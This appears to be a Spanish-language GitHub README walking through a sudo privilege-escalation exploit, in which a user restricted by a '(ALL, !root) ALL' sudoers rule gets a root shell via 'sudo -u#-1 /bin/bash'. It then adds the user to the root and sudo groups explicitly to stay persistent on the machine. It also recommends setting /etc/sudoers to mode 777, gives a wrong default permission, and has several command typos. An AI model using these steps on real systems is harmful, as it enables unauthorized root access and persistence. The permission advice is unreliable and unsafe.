 <img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/sudo/blob/master/sudo.png">

#1.- Por defecto /etc/sudoers tiene permisos chmod 775. Intentamos para editar sin problemas el fichero sudoers $chmod 777 /etc/sudoers  y volvemos a restablecer después los privilegios chmod 755 /etc/sudoers. O Editamos el fichero /etc/sudoers con visudo: 

$usermod -aG sudo antonio

$gpasswd -a antonio sudo

$sudo visudo 

#2.- Añadimos la linea con el usuario antonio 

#User privilege specification

root ALL=(ALL:ALL) ALL

antonio ALL=(ALL) /usr/bin/id

#3.- Ejecutamos: 

$su antonio

$sudo id

$sudo whoani

$sudo -u antonio id

#4.- Volvemos a editar el fichero /etc/sudoers con $sudo visudo

#5.- Modificamos la línea

antonio ALL=(ALL, !root) ALL

#6.- Explotamos la vulnerabilidad con sudo -u#-1

$chmod 755 /etc/sudoers

$sudo -u#-1 /bin/bash

#whoami

root

#7.- ya somos root!

#8.- Otro si: añadimos en la línea sudo de /etc/group a antonio y nos hacernos persistentes en la maquina:

usermod -aG root antonio

usermod -aG sudo antonio

sudo usermod -aG sudo antonio

#9.- Probamos

exit

$sudo antonio

$sudo su

#10.- ya somos del grupo sudo y podemos elevar a root!

Editamos y eliminamos de sudoers la linea
antonio ALL=(ALL, !root) ALL
